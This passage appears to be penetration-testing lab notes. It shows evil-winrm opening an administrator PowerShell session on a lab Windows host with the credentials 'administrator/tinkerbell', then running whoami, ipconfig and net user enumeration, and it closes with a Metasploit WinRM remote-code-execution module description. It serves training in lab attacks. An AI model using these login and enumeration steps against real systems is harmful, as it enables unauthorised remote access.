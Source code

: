 ```
                                 [01]: 10.3.27.236
                                 [02]: fe80::cda1:e4e1:4b3a:b51d
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

[evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
root@attackdefense:/opt/evil-winrm# ls
CHANGELOG.md  CODE_OF_CONDUCT.md  CONTRIBUTING.md  Dockerfile  Gemfile	Gemfile.lock  LICENSE  README.md  evil-winrm.rb  resources
root@attackdefense:/opt/evil-winrm# evil-winrm.rb -i 10.3.27.236 -u administrator -p tinkerbell

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami      
server\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : us-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::cda1:e4e1:4b3a:b51d%4
   IPv4 Address. . . . . . . . . . . : 10.3.27.236
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.3.16.1
*Evil-WinRM* PS C:\Users\Administrator\Documents> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            auditor                  DefaultAccount
demo                     Guest                    sysadmin
WDAGUtilityAccount
The command completed with one or more errors.

```

[WinRM Script Exec Remote Code Execution](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/)

WinRM Script Exec Remote Code Execution

This module uses valid credentials to login to the WinRM service and execute a payload. It has two available methods for payload delivery: Powershell 2.0 and VBS CmdStager. The module will check if Powershell 2.0 is available, and if so uses that method. Otherwise it falls back to the VBS CmdStager which is less stealthy. IMPORTANT: If targeting an x64 system with the Powershell method you MUST select an x64 payload. An x86 payload will never return.
